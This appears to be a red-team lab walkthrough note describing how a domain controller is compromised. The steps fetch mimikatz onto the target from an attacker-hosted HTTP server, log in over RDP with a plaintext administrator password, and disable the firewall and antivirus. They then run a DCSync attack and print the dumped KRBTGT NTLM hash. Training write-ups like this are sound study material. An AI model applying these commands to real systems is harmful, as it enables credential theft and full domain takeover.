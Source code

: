 ## Download mimikatz

[[Dumping secrets from CORPDC#Connect to RDP with the Administrator's credentials|Connect to CORP.DC with Administration credentials]]


### Enable http.server using python and proxychains on the Attacking machine


~/…/red_team_recon/Capstone_Challenge/Capstone_Challenge_Resources/Tools/mimikatz_trunk/x64$  `proxychains -q python3 -m http.server`

### Get mimikatz
On the tools provided on Capstone challenge folder you can find mimikatz.
Run on the Evil-WinRM shell the following command.

Evil-WinRM* PS C:\Users\Administrator> `wget http://10.50.110.16:8000/mimikatz.exe -o mimikatz.exe`

#### Connect to RDP with the Administrator's credentials

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:Administrator /p:Hacker@123` 


## Disable CORP.DC firewall

Disabled firewall.
![[Preparing the path-20240607144158824.webp]]
## Disable virus protection

Disable virus and turned off Real-time protection from settings.
- **Open Windows Security:**
    
    - Click on the **Start** button.
    - Type **Windows Security** in the search bar and press Enter.
    - Alternatively, you can also find it by navigating through **Settings > Update & Security > Windows Security**.
    - ![[Preparing the path-20240607143234384.webp]]

## Performing DCSync Attack

Use this attack to gather NTLM of KRBTGT. To know more about this attack, check [here](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection).

- Open a powershell.
- Run mimikatz (Rememder where you saved it).
	PS C:\Users\Administrator\Documents> `.\mimikatz.exe`

### Mimikatz commands

mimikatz # `privilege::debug`
mimikatz # `lsadump::dcsync /user:corp\krbtgt`

![[Preparing the path-20240607145323252.webp]]
As you can see in the above screenshot we were able to perform DCSync attack successfully and retrieve the KRBTGT account hash.

> KRBTGT NTLM hash: 0c757a3445acb94a654554f3ac529ede

### Dumping SID of **CORPDC**

PS C:\Users\Administrator\Documents> `Get-ADComputer -Identity "CORPDC"`

![[Preparing the path-20240607151619249.webp]]